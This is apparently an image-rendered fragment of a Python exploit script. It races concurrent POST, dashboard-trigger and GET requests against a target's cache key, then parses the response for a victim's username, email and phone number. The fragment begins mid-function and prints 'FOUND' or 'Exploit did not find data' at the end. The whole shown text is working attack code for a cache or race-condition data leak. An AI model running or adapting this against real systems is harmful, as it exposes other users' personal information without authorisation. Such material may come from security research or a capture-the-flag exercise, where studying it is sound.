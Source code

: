 ```py
            if VERBOSE:
                print("[GET] target message found but regexes yielded no data")
    # not found
    return

def attempt_once():
    t_post = threading.Thread(target=do_post)
    t_larry = threading.Thread(target=trigger_larry_dashboard)
    t_get = threading.Thread(target=do_get_and_parse)
    
    t_post.start()
    t_larry.start()
    # small stagger to ensure POST hits server first
    time.sleep(0.02)
    t_get.start()
    
    t_post.join()
    t_larry.join()
    t_get.join()

if __name__ == "__main__":
    print(f"Target: {BASE} | Key: {CACHE_KEY} | Delay: {DELAY}s | Tries: {TRIES}")
    for i in range(TRIES):
        if stop_event.is_set():
            break
        if VERBOSE:
            print(f"\n[Attempt {i+1}/{TRIES}]")
        attempt_once()
        # check queue
        if not result_q.empty():
            res = result_q.get()
            print("\\n=== FOUND ===")
            print("username:", res.get('username'))
            print("email:   ", res.get('email'))
            print("phone:   ", res.get('phone'))
            print("raw snippet (truncated):\\n", res.get('raw_snippet'))
            break
        else:
            if VERBOSE:
                print("[+] not found, retrying...")
            time.sleep(0.15)  # small backoff
    else:
        print("[-] Exploit did not find data. Try tuning --delay, increase --tries or run locally to test timing.")
```
